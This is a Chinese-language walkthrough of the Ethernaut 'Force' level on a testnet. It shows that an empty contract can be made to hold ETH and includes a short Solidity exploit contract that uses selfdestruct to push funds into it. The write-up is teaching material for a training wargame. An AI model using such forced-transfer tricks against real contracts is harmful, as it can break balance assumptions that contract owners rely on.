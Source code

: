 ## Level_7.Force

要求：

> 使合约的余额大于0；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

### 分析

貌似并没有给我们合约的具体内容；

在[交易查询网站](https://sepolia.etherscan.io)上查到合约的字节码：

```solidity
// 0x6080604052600080fdfea26469706673582212203717ccea65e207051915ebdbec707aead0330450f3d14318591e16cc74fd06bc64736f6c634300080c0033
```

反编译一下字节码：

```solidity
// Note: The function selector is not present in the original solidity code.
// However, we display it for the sake of completeness.

function __function_selector__() private { 
    MEM[64] = 128;
    revert();
}
```

发现好像就是一个空的合约；

题目的意思就是我们得往里面转账，可是` receive() `和` fallback() `都不存在，向合约发送ETH是会报错的;

![image-20250104142255716](./assets/image-20250104142255716.png)

由于版本是` 0.8 `，此时的` selfdestruct `还没有升级，可以向指定地址转账，无论那个地址是否有` payable `函数；

所以我们只需要部署一个合约，往其中转入一些ETH，之后销毁它，将其中ETH转入题目合约即可；



### 攻击

攻击脚本，记得将编译版本调低一点：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp {
    function destruct(address payable addr) public {
        selfdestruct(addr);
    }
    receive() external payable { }
}
```

![image-20250104151331492](./assets/image-20250104151331492.png)

